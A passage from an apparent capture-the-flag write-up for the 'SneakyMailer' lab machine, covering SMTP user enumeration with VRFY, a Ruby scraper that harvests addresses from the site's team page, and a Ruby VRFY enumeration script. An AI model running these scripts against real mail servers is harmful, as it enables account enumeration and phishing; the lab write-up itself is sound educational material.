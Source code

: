 ## Service discovery

The FTP is not accessible anonymously and we don't have credentials yet.

There are a SMTP and IMAP server. This also another web server on port 8080
but found nothing while enumerating.

## SMTP & IMAP exploitation

Let's connect to the SMTP server and try to verify some email addresses:

```
$ ncat sneakycorp.htb 25
220 debian ESMTP Postfix (Debian/GNU)
vrfy cyfun@sneakymailer.htb
550 5.1.1 <cyfun@sneakymailer.htb>: Recipient address rejected: User unknown in virtual mailbox table
vrfy airisatou@sneakymailer.htb
252 2.0.0 airisatou@sneakymailer.htb
```

So it means our account was not created after filling the registration form
but emails listed on the team page seem valid.

I wrote a short ruby script to scrap & parse the website to extract the email
addresses:

```ruby
#! /usr/bin/env ruby

require 'nokogiri'
require 'open-uri'

doc = Nokogiri::HTML(URI.open('http://sneakycorp.htb/team.php'))
cells = doc.search('table#dataTable tbody tr td')

cells.each do |c|
    puts c.text if /@sneakymailer.htb/.match?(c)
end
```

```
$ ruby grab_email.rb > emails.txt
```

If we want to verify all email addresses, we can re-use a
[Rubyfu - SMTP Enumeration](https://rubyfu.net/module-0x3-or-network-kung-fu/email/smtp-enumeration)
script and modify it a bit.

```ruby
#!/usr/bin/env ruby

require 'socket'

users = File.read('emails.txt').split("\n")
found = []

@s = TCPSocket.new('sneakycorp.htb', 25)
@banner = @s.recv(1024).chomp
users.each do |user|
  @s.send "VRFY #{user} \n\r", 0
  resp = @s.recv(1024).chomp
  found << user if resp.split[2] == user
end
@s.close

puts "[*] Result:-"
```